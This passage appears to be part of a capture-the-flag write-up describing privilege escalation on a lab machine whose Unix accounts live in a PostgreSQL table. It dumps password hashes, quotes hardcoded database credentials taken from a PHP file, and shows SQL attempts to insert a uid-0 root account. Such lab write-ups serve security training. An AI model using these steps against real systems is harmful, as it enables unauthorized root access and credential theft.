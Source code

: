 ```
 public | group_table  | table    | postgres
 public | passwd_table | table    | postgres
 public | shadow_table | table    | postgres
 public | user_id      | sequence | postgres
 public | usergroups   | table    | postgres
(6 rows)
```

Here we can see the user table in which the user we created resides:

```
unix=> select * from passwd_table;
select * from passwd_table;
 username |               passwd               | uid  | gid  | gecos |    homedir     |   shell   
----------+------------------------------------+------+------+-------+----------------+-----------
 tricia   | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
 snowscan | $1$ANxI97CM$noo3OJtS7FevXzzfR//ih0 | 2020 | 1001 |       | /var/jail/home | /bin/bash
(2 rows)
```

We'll try adding a new user with password `yolo1234` and set it's UID and GID to 0:

```
unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('snowscan','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,0,'/root');
ERROR:  permission denied for relation passwd_table
```

Too bad, this user doesn't have access... But the web application probably has an account that has the correct rights to add users since we were able to create a user from the web interface earlier.

The `/var/www/html/admin/pages/actions.php` file contains the credentials we are looking for: `unixusrmgr / dheu%7wjx8B&`

```
if($action==='adduser'){
	$username=$_POST['username'];
	$passw=generateRandomString();
	$phash=crypt($passw);
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");
	$result = pg_execute($dbconn, "q1", array($username, $phash));
	echo "Provide this credentials to the user:<br><br>";
	echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
}
```

Let's try the same SQL query again with these credentials:

```
unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('snowscan','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,0,'/root');
ERROR:  permission denied for relation passwd_table
```
